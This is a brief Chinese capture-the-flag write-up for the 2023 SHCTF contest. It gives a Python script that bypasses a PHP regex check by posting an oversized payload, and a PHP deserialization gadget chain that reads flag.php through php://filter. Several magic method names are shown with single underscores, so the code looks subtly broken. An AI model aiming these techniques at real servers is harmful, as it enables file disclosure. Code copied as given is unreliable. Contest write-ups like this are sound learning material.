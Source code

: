 # 2023 SHCTF联赛


2023SHCTF联赛---工带第二届新生赛



作为组委会摆烂成员，

摸鱼水题出题人，

自己也稍微做了点



更详细的wp见官方wp：

https://mp.weixin.qq.com/s/9Q176LuKQAhw7TlNg9vk4A

## WEB

### [WEEK1]1zzphp

套路跟ctfshow web131差不多

```
import requests
url="http://112.6.51.212:31610/?num[]=a"
data={
  'c_ode':'very'*250000+'2023SHCTF'
}
r=requests.post(url,data=data)
print(r.text)
```

### [WEEK1]ez_serialize

```
<?php
class A{
  public $var_1='php://filter/read=convert.base64-encode/resource=flag.php';
  public function _invoke(){
​    include($this->var_1);
  }
}
class B{
  public $q;
  public function _wakeup(){
​    $this->q=new A();
  }
}
class C
{
  public $var;
  public $z;
  public function _toString(){
  return $this->z= new D();
  }
}
class D{
  public $p;
  public function __get($key){
​    $function = $this->p = new A();
  }
}
$pop=new B();
$pop->q=new C();
$pop->q->z=new D();
```